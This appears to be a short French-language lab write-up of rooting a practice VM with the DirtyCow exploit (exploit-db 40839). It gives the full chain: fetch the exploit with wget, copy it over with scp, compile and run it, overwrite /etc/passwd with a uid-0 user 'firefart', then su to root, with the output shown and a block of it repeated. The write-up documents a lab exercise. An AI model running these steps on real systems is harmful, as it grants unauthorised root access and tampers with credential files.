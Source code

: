 # DirtyCow 2

## Download exploit C file

[DirtyCow](https://www.exploit-db.com/download/40839)

## Process

On repart du `user Laurie` pour se connecter en `ssh`

```shell
$ ssh laurie@192.168.56.104 -p 22
```

### Host

```shell
$ wget https://www.exploit-db.com/download/40839 ; mv 40839 40839.c

$ scp 40839.c laurie@192.168.56.104:~/.
```

### VM

```
$ gcc -pthread -O2 40839.c -lcrypt

$ ./a.out
/etc/passwd successfully backed up to /tmp/passwd.bak
Please enter the new password:
Complete line:
firefart:fiw.I6FqpfXW.:0:0:pwned:/root:/bin/bash

mmap: b7fda000
madvise 0

ptrace 0
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd
Done! Check /etc/passwd to see if the new user was created.
You can log in with the username 'firefart' and the password 'root'.


DON'T FORGET TO RESTORE! $ mv /tmp/passwd.bak /etc/passwd

$ su firefart
Password:

firefart:$ id
uid=0(firefart) gid=0(root) groups=0(root)
```
